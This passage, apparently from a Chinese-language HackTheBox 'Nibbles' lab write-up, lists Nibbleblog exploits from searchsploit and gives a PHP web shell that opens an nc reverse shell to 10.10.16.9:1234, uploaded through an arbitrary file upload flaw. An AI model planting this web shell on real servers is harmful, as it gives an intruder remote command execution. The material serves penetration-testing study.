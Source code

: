 
## 漏洞利用

+ 查看本地可利用exp:

    ```
    ┌──(kali㉿kali)-[~/桌面/HTB/Nibbles]
    └─$ searchsploit Nibbleblog                                          
    ------------------------------------------------------------------------------ ---------------------------------
    Exploit Title                                                                |  Path
    ------------------------------------------------------------------------------ ---------------------------------
    Nibbleblog 3 - Multiple SQL Injections                                        | php/webapps/35865.txt
    Nibbleblog 4.0.3 - Arbitrary File Upload (Metasploit)                         | php/remote/38489.rb
    ------------------------------------------------------------------------------ ---------------------------------
    Shellcodes: No Results
    ```

+ 可利用漏洞为任意文件上传漏洞

    + shell脚本：

        ```
        <?php 
        exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.9 1234 >/tmp/f");
        echo ">:)";
        ?>
        ```

    + 上传shell脚本：

        ![](/style/image/2024-02-29-00-08-34.png)